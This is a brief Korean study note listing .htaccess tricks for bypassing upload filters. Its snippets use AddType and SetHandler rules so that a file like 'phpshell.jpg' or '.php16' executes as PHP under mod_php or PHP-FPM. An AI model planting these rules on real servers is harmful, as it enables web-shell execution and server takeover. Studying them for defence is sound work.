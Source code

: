 ```yaml
---
sticker: emoji//2b06-fe0f
---
```




### .htaccess bypass

가장 기본적인 타입
```bash
AddType application/x-httpd-php .php16
```

mod_php 사용 시,
```bash
<Files "phpshell.jpg">
        SetHandler application/x-httpd-php
</Files>
```

PHP FastCGI Process Manager 을 사용하는 경우,
```bash
<Files "phpshell.jpg">
        SetHandler "proxy:unix:/run/php-fpm/www.sock/fcgi://localhost"
</Files>
```



